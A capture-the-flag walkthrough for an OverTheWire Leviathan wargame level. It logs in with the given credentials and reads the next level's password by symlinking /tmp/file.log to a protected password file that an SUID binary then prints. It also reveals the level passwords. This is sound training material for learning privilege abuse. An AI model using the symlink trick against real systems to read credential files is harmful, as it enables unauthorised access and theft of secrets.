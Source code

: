**Username:** ``leviathan5``

**Password:** ``0dyxT7F4QD``


#


We start off the challenge by logging in as ``Leviathan5`` over ssh on Port ``2223``:

```console
ssh leviathan5@leviathan.labs.overthewire.org -p 2223
```

Looking at the contents of our home directory, this time we are presented with an executable called ``leviathan5`` which has the SUID bit set to run as user leviathan6.  Running the executble simply returns a message saying `Cannot find /tmp/file.log`
```console
leviathan5@gibson:~$ ls -la
total 36
drwxr-xr-x  2 root       root        4096 Apr 10 14:23 .
drwxr-xr-x 83 root       root        4096 Apr 10 14:24 ..
-rw-r--r--  1 root       root         220 Mar 31  2024 .bash_logout
-rw-r--r--  1 root       root        3771 Mar 31  2024 .bashrc
-r-sr-x---  1 leviathan6 leviathan5 15144 Apr 10 14:23 leviathan5
-rw-r--r--  1 root       root         807 Mar 31  2024 .profile
leviathan5@gibson:~$ ./leviathan5
Cannot find /tmp/file.log
```

If you've been following along from the previous levels, the next steps to take should be quite clear by now...  

It looks like the `leviathan5` is attempting to return the contents of `/tmp/file.log`, but it's not finding the file and returniogn an error.  We need to figure out a way of tricking the executable to return the contents of `/etc/leviathan_pass/leviathan6` instead.  How do we do that?  Well, by creating a **symlink** of course!  We can create a symbolic link that points `/tmp/file.log` to `/etc/leviathan_pass/leviathan6`, this way, when the executable looks for `/tmp/file.log` it will follow the symlink and return the contents of `leviathan6` instead.  Keep in mind that with the SUID bit, `leviathan5` is running with the user priviliges of leviathan6, which has read access to `/etc/leviathan_pass/leviathan6`.

```console
leviathan5@gibson:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@gibson:~$ ./leviathan5
szo7HDB88w
```

And just like that we can move on to the next level!
